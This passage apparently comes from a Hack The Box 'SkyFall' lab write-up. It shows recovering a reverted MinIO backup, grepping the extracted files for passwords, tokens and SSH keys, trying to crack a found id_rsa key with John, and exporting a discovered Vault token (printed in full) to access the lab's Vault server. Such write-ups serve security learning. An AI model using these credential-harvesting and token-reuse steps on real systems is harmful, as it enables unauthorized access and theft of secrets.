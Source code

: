 ```bash 
$ ./mc undo  minio/askyy --recursive --force
✓ Last upload of `askyy/Welcome.pdf` (vid=bba1fcc2-331d-41d4-845b-0887152f19ec) is reverted.
✓ Last upload of `askyy/home_backup.tar.gz` (vid=25835695-5e73-4c13-82f7-30fd2da2cf61) is reverted.

$ ./mc ls minio/askyy                       
[2023-11-09 16:37:09 EST] 2.6KiB STANDARD home_backup.tar.gz

$ ./mc cp myminio/askyy/home_backup.tar.gz .  
..._backup.tar.gz: 2.64 KiB / 2.64 KiB

$ ./mc ls myminio/askyy                       
[2023-11-09 16:36:30 EST] 1.2MiB STANDARD home_backup.tar.gz
```

After that, I extracted all the files and created a folder for each one so that I can analyze the data and measure the difference between all of them. I used **grep** to find different patterns in all the files recursively.

```bash
$ grep -rni -e "Password" -e "User" -e "API" -e "Token" -e "SSH" -e "askyy"
```

- **-r** for recursive
- **-n** for line number
- **-i** for case insensitive 
- **-e** to take each word as saperate word

![Pasted image 20240207202925](https://github.com/iammR0OT/HTB/assets/74102381/5412fdcd-cd5f-46c0-a581-1a8dcae7a96e)

![Pasted image 20240207202946](https://github.com/iammR0OT/HTB/assets/74102381/eb3165c7-cd5d-4132-9782-63e725aa14e8)

Here, I found three interesting things: **VAULT_API_DIR**, **VAULT_TOKEN**, and **id_rsa** for the **askyy** user. I tried to log in using the **id_rsa** key, but it didn't work. I also tried to crack the key of **id_rsa** using **John**, but that also didn't work.

### Vault
  
When **id_rsa** didn't work, I moved to the **VAULT**. I Googled Vault and found the very first link describing Vault as an identity-based secrets and encryption management system. Vault works on tokens. In our case, we have both **VAULT_API_DIR** and the **VAULT_TOKEN**. [Reference](https://developer.hashicorp.com/vault/docs/what-is-vault)

You can download Vault from [here](https://developer.hashicorp.com/vault/install). Let's look at the help section of Vault. We can read and write, delete, list secrets.

![Pasted image 20240207205358](https://github.com/iammR0OT/HTB/assets/74102381/2dd8c3c8-daf5-4e52-9bb5-1382550fe022)
  
Now, let's connect to Vault using the token we got before. [Reference](https://developer.hashicorp.com/vault/tutorials/getting-started/getting-started-dev-server#set-environment-variables) First, export the **vault address** in an environmental variable. This will configure the Vault client to talk to the dev server. Then, export the Vault Token in another environmental variable. After setting both values, check the server status to see if it is running or not.

```bash
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
$ ./vault status
```
  